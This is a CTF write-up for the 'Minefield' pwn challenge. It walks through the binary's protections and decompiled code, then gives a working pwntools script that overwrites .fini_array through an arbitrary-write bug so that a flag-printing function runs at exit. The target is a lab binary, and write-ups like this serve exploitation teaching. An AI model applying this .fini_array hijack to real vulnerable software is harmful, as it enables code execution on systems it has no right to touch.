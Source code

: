 ```yaml
--- 
layout: post 
title:  "[CA HTB] Minefield"
date: "2021-04-25" 
categories: Pwn 
author: eurus 
---
```


I didn't solve this challenge in the race, but I only understood how to solve it after reading a writeup and understanding how the ``` .fini ``` and the ``` .fini_array ``` work.

This challenge is very easy but you need to know what are the sections  ``` .fini ``` and ``` .fini_array ```.


```bash
In [1]: from pwn import *

In [2]: context.binary = elf = ELF('./minefield')
[*] '/home/eurus/Documents/minefield/minefield'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)

```
We can see here the protection enabled in this elf. Important for this challege are No RELRO and No PIE.

We can start to analyze what the program does:

```bash
┌──(eurus㉿ctf)-[~/Documents/minefield]
└─$ ./minefield 
Are you ready to plant the mine?
1. No.
2. Yes, I am ready.
> 2
We are ready to proceed then!
Insert type of mine: 2
Insert location to plant: 3
We need to get out of here as soon as possible. Run!
zsh: segmentation fault  ./minefield
```
So we have two user input if we respond at the first question that we are ready to plat a mine. And after that we give this input we have a segmentation fault.

Analyzing this elf with a disassembler we can see that we have a function called ``` _ ``` that cat the flag from the server, so we dont neeto to spawn a shell but we need just to redirect the flow of the program to this function.

```c
unsigned __int64 _(){
  size_t s_len; // rax
  unsigned __int64 canary; // [rsp+8h] [rbp-8h]

  canary = __readfsqword(0x28u);
  s_len = strlen(aMissionAccompl);
  write(1, aMissionAccompl, s_len);
  system("cat flag*");
  return __readfsqword(0x28u) ^ canary;
}
```

In the program there are a funtion interesting. This id the ``` mission ``` function. It take 2 input (type of mine and location plant), it use ``` strtoull ``` The strtoul() function converts the initial part of the string in nptr to an unsigned long int value according to the given base, which must be between 2 and 36 inclusive, or be the special value 0. So this funtion convert the value of the sting into ull value. 

We can see that our input is taken by the r function, this function read from stdin only 9 bytes into nptr and so this mean that our input is only 9 char

```c
unsigned __int64 mission(){
  _QWORD *v1; // [rsp+0h] [rbp-30h]
  char nptr[10]; // [rsp+14h] [rbp-1Ch] BYREF
  char v3[10]; // [rsp+1Eh] [rbp-12h] BYREF
  unsigned __int64 canary; // [rsp+28h] [rbp-8h]

  canary = __readfsqword(0x28u);
  printf("Insert type of mine: ");
  r(nptr);
  ptr_write = (_QWORD *)strtoull(nptr, 0LL, 0);
  printf("Insert location to plant: ");
  r(value_write);
  puts("We need to get out of here as soon as possible. Run!");
  *ptr_write = strtoull(value_write, 0LL, 0);
  return __readfsqword(0x28u) ^ canary;
}

unsigned __int64 __fastcall r(void *nptr){
  unsigned __int64 v2; // [rsp+18h] [rbp-8h]

  canary = __readfsqword(0x28u);
  read(0, nptr, 9uLL);
  return __readfsqword(0x28u) ^ canary;
}

```


So the mission function do this:
1. take 9 char as input 
2. convert this input into a value ull named ``` ptr_write ```
3. take another input of 9 char as imput
4. convert this input into a value ull named ``` value_write ```
5. finally writes ``` value_write ``` inside the memory at address ``` ptr_write ```

**So we can write in any position of the program what we want... at least seems**

My first thing was owerwrite the GOT for ``` __stack_chk_fail ``` with the address of ``` _ ``` and attemp to modify the canary in order to call the function ``` __stack_chk_fail ``` but we cannot modify the canary, the read are *safe* as far as this program can be described as safe!

Second thought: overwrite the return address in the stack that we knoe because PIE is disabled, BUT ``` rip ``` is located on ``` 0x7fffffffdf78 ``` address inside mission function and we can insert only 9 characters so It's impossible. 

Here i was stuck. But then reading the solution I learned something new. 

```bash
.init	00000000004006C0	00000000004006D7	R	.	X	.	L	dword	0004	public	CODE	64	FFFFFFFFFFFFFFFF	FFFFFFFFFFFFFFFF	000F	FFFFFFFFFFFFFFFF	FFFFFFFFFFFFFFFF
.init_array	0000000000601070	0000000000601078	R	W	.	.	L	qword	000B	public	DATA	64	FFFFFFFFFFFFFFFF	FFFFFFFFFFFFFFFF	000F	FFFFFFFFFFFFFFFF	FFFFFFFFFFFFFFFF
.fini	0000000000400CA4	0000000000400CAD	R	.	X	.	L	dword	0007	public	CODE	64	FFFFFFFFFFFFFFFF	FFFFFFFFFFFFFFFF	000F	FFFFFFFFFFFFFFFF	FFFFFFFFFFFFFFFF
.fini_array	0000000000601078	0000000000601080	R	W	.	.	L	qword	000C	public	DATA	64	FFFFFFFFFFFFFFFF	FFFFFFFFFFFFFFFF	000F	FFFFFFFFFFFFFFFF	FFFFFFFFFFFFFFFF
```

inside the binary we have this two segment. 
>The .init and .fini sections have a special purpose. If a function is placed in the .init section, the system will execute it before the main function. Also the functions placed in the .fini section will be executed by the system after the main function returns.

SO we can overwrite the ``` .fini_aray ``` with the address of the function ``` _ ``` and when pte program return correctly it will execute our function! lets see

```bash
In [24]: p = elf.process()
[x] Starting local process '/home/eurus/Documents/minefield/minefield'
[+] Starting local process '/home/eurus/Documents/minefield/minefield': pid 2046

In [25]: p.sendline('2')

In [26]: p.recvuntil(': ')
Out[26]: b'Are you ready to plant the mine?\n1. No.\n2. Yes, I am ready.\n> We are ready to proceed then!\nInsert type of mine: '

In [27]: p.sendline(str(fini_arr))

In [28]: p.recvuntil(': ')
Out[28]: b'Insert location to plant: '

In [29]: p.sendline(str(hex(elf.sym['_'])))

In [30]: p.interactive()
[*] Switching to interactive mode
[*] Process '/home/eurus/Documents/minefield/minefield' stopped with exit code 0 (pid 2046)
We need to get out of here as soon as possible. Run!

Mission accomplished! ✔
HACKAPPATOI{4n0th3r_fl4g} 
[*] Got EOF while reading in interactive

```

and this is the script.

```python
from pwn import *

context.binary = elf = ELF('./minefield')

p = elf.process()

fini_arr = 0x601078

p.sendline('2')
p.recvuntil(': ')
p.sendline(str(fini_arr))
p.recvuntil(': ')
p.sendline(str(hex(elf.sym['_'])))
res = p.recvall()
log.info(str(res).split('\\n')[-2])
```



